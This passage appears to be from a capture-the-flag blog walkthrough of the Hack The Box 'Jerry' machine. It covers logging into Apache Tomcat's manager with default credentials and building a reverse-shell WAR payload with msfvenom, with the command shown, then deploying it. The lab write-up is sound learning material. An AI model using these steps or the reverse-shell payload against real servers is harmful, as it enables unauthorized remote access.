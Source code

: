 The other option, `windows/webapps/42953.txt`, seems to be tailored to windows. Running `searchsploit -x windows/webapps/42953.txt` gives an overview of the request structure needed.

![](/assets/images/blogs/Pasted image 20210504132312.png)

I pasted this directly into Burp Repeater, and just had to configure the host:

![](/assets/images/blogs/Pasted image 20210504133101.png)

My first attempt gave me a blank response, so I made sure to change the referer header to match the current IP just in case, and sent again:

![](/assets/images/blogs/Pasted image 20210504133324.png)

The response was also blank, so I just went and checked if the shell had been uploaded. However, `http://10.10.10.95/1.jsp` also gave me a 404.

## Manager Console

I decided to change my strategy and look at something else. I went back to the main site, and navigated to the manager app.

Here I was prompted for some credentials. I tried the default login for Tomcat, `tomcat`:`s3cret`:

![](/assets/images/blogs/Pasted image 20210504133752.png)

I was in!

### WAR File Shell

Now the next step was to use this to upload a shell. Scrolling down there was an option to deploy a WAR file:

![](/assets/images/blogs/Pasted image 20210504133840.png)

I did a quick check in `/usr/share/webshells` to see if there was a folder for `WAR` files, but there wasn't - so I went to `msfvenom` instead:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f war -o warshell.war
Payload size: 13400 bytes
Final size of war file: 13400 bytes
Saved as: warshell.war
```

I found a good guide when searching "kali war shell" that took me through this process: [https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/](https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/)

I then selected the file on my box and clicked deploy:

![](/assets/images/blogs/Pasted image 20210504135209.png)

We can then visit `http://10.10.10.95/warshell`:
